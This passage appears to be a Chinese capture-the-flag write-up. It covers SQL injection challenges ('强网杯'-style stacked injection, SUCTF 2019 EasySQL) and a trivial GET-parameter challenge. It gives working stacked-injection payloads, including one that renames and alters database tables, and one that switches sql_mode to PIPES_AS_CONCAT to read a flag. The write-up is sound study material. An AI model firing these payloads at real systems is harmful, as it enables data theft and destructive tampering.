 ```
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

这里在查询`1919810931114514`数据表时加了反引号，是因为在windows系统下，反引号（`）是数据库、表、索引、列和别名用的引用符。

到这一步，我们可以得知，我们输入`1`，回显的应该是当前数据库下`words`这张表中的数据，所以这里的后端查询代码应该是`select id,data from words where id=`，而flag则在`1919810931114514`这张表中，这里可以用重命名换表输出，最后输入永真句`0' or 1=1#`，就能得到flag。

```
0';rename table words to word;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;#
```

看了别的师傅的WP，发现这里还可以用预处理语句，但不是很懂，涨了点知识，再学吧

# [极客大挑战 2019]Havefun

查看源码，发现以下代码，`payload：url/?cat=dog`，回显flag

```php+HTML
<!--
        $cat=$_GET['cat'];
        echo $cat;
        if($cat=='dog'){
            echo 'Syc{cat_cat_cat_cat}';
        }
        -->
```

# [SUCTF 2019]EasySQL

`1`，有回显，`1'`无回显，再闭合单引号，发现还是没有回显，应该字符型注入，用字典跑了一遍，发现过滤了`and,or,union`等语句，那就尝试了一下堆叠注入，于是得到如下结果

```
1;show databases;
Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test )
1;show tables;
Array ( [0] => 1 ) Array ( [0] => Flag )
```

再尝试`1;desc Flag`时，发现不能查询到，显然是过滤了`flag`，这实在没什么思路了，学习别人的WP。

后端代码如下，其实这里输入`1,2,3...`的回显一样，但`0`不一样，应该是想暗示我们后端代码用了`||`

```
select $post['query']||flag from Flag
```

所以这里的目的是要能执行`||`后面的语句，最终`payload：1;set sql_mode=PIPES_AS_CONCAT;select 1`

这里`PIPES_AS_CONCAT`，将`||`视为字符串的连接操作符而非或运算符，这和Oracle数据库是一样的，也和字符串的拼接函数`concat`相类似
